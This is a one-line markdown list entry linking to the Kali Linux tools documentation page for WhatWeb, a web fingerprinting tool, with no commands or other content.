- [WhatWeb - Kali Tools](https://www.kali.org/tools/whatweb/)
